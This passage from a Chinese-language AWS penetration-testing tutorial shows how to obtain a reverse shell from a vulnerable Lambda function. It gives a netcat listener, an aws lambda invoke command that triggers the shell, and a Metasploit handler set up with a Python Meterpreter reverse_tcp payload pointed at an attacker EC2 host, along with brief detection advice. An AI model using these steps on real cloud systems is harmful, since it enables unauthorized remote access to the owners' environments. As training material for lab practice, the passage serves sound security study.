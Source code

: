 ```
$ nc -lvp 1337 &
```

现在你的监听器已经在后台设置好并准备就绪。在执行连接之前，我们需要配置到 AWS 环境。在终端中键入`aws configure`，确保使用我们在之前章节中使用的 ID 和密钥。一旦设置到环境中，运行以下命令来启动 shell：

```
$ aws lambda invoke --function-name <<Lambda ARN>> --invocation-type RequestResponse outfile.txt --region <<aws region>>
```

重要提示

您可能需要在您的 Kali 实例上安装 AWS CLI。要安装 AWS CLI，请运行以下命令：`$ apt-get install awscli -y`。

正如你所看到的，在 Lambda 中获取 shell 可能很有趣，但对于毫无戒心的企业来说也可能很危险。对抗这种情况的一个很好的方法是在网络中部署监控解决方案 - 诸如网络预防和检测系统之类的设备，这些设备具有检测网络中的异常流量的出口规则，以及检查进入的数据包的入口规则。在 AWS 方面，**CloudTrail**是在尝试检测与 AWS 环境之间的流量时使用的一个很好的资源。

在本书中我们已经谈论了很多关于 Metasploit，现在让我们看看如何在 Lambda 中使用 Metasploit。我们将看看如何利用 Metasploit 中的处理程序来捕获会话。

重要提示

会话是在 Metasploit 中被挂钩的连接。

## 使用 Metasploit 和 Lambda 玩得开心

现在我们了解了如何使用 Python 和 Lambda 创建 shell 脚本，让我们看看如何使用 Metasploit 来获得类似的结果！在这个练习中，我们可以使用之前的相同有效载荷；但是，如果您重新启动了实例或者使用了不同的 EC2，您可能需要更改您的实例 DNS 名称。

在开始之前，让我们讨论一下我们将要做什么；记住，最好在执行计划之前制定计划，即使这个计划很小！例如，我们需要使用`netcat`建立连接。我们在设置 Lambda 函数的反向 shell 时学习了`netcat`。

由于我们之前在*第三章**，探索渗透测试和 AWS*中使用过 Metasploit，所以不需要讨论 Metasploit 或如何启动它。但是，我们需要确保使用正确的有效载荷。以下步骤将展示如何使用 Python 有效载荷设置处理程序，以捕获我们的脆弱 Lambda 函数的连接。

启动 Metasploit 并输入以下命令开始设置处理程序：

```
$ use exploit/multi/handler 
$ set payload python/meterpreter/reverse_tcp
$ set lhost <<EC2 instance DNS>>
$ set lport 1337
$ run 
```

一旦您开始运行处理程序，您的处理程序将进入`netcat`工作，除了我们使用 Meterpreter 来解释我们的 shell 和`netcat`连接中使用的默认 Bash shell 之外。Meterpreter shell 比`netcat`连接更强大，因为它们提供了大量的模块，您可以在 Meterpreter shell 中加载这些模块。我们将在*第九章**，使用 Metasploit 进行真实渗透测试和更多内容*中了解更多。

现在我们的监听器正在运行，回到您的易受攻击的 Lambda 函数并测试它，尝试连接到您的 Meterpreter 监听器。如果一切顺利，您将拥有一个分段器，然后是一个会话。您的会话是与目标的交互式 shell：

![图 7.11-通过 Meterpreter 获取反向 shell](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/aws-pentest/img/Figure_7.11_B15630.jpg)

图 7.11-通过 Meterpreter 获取反向 shell

现在，在我们的 Lambda 实例上通过 Meterpreter 拥有了一个交互式 shell。如果此 Lambda 实例正在连接其他资源，则可能存在转向的可能性-但是在本示例中，我们不会过多担心这一点。在*第九章**，使用 Metasploit 进行真实渗透测试和更多内容*中将更多地涉及转向。目前，可以随意移动您的 shell，尝试不同的有效载荷，甚至扩展您的环境，看看您还能做些什么！
